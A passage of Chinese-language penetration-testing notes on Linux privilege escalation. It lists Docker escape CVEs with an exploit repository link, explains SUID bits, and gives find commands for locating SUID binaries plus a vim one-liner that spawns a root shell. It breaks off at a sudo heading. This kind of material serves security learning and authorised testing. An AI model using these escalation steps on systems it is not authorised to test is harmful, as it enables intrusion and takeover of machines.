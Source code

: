     ![image-20231015204347541](../images/image-20231015204347541.png)



### Docker提权

- 从脏管道（CVE-2022-0847）到 Docker 逃逸

  ![image-20231015202422512](..//images/image-20231015202422512.png?lastModify=1697447453)

- CVE-2022-23222--不稳定

  影响版本：5.8.0 <= Linux 内核 <= 5.16

  https://github.com/tr3ee/CVE-2022-23222.git

- Docker 用户组提权

  [Docker 用户组提权 | T Wiki](http://124.220.192.120:7777/CloudNative/Docker/docker-user-group-privilege-escalation.html)

### suid提权

[谈一谈Linux与suid提权 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)

![image-20230220142509956](../images/image-20230220142509956.png)

> suid全称是**S**et owner **U**ser **ID** up on execution。这是Linux给可执行文件的一个属性。
>
> 设置了s位的程序在运行时，其**Effective UID**将会设置为这个程序的所有者。比如，`/bin/ping`这个程序的所有者是0（root），它设置了s位，那么普通用户在运行ping时其**Effective UID**就是0，等同于拥有了root权限。

![image-20230220142233418](../images/image-20230220142233418.png)

查找具有s位权限的命令

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
```

常见suid提权命令

```shell
find . -exec command \;
```

```
./vim -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

### sudo提权

> sudo：super user do

#### 不恰当的sudo命令配置
